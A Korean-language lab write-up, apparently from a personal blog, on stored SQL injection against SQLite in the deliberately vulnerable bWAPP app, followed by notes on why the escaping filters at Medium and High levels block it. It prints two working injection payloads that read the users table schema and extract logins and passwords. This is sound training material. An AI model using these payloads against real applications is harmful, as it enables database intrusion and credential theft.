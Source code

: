 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (SQLite)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-sqlite-archive/image1.png)
- 이전과 동일하지만 DBMS의 종류가 SQLite이다.
- 공격 방식은 동일하지만 문법을 SQLite로 하면 된다.

![그림 1-2](/assets/image/bwapp/injection/stored-sqlite-archive/image2.png)
- users 라는 테이블 확인

```sql
test',(select tbl_sql from sqlite_master where tbl_name='users'))--
```

![그림 1-3](/assets/image/bwapp/injection/stored-sqlite-archive/image3.png)
- 각각의 컬럼명도 확인했다.

```sql
test',(select login||id||secret||password from users limit 1,1))--
```

![그림 1-4](/assets/image/bwapp/injection/stored-sqlite-archive/image4.png)

- 테이터 성공적으로 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.


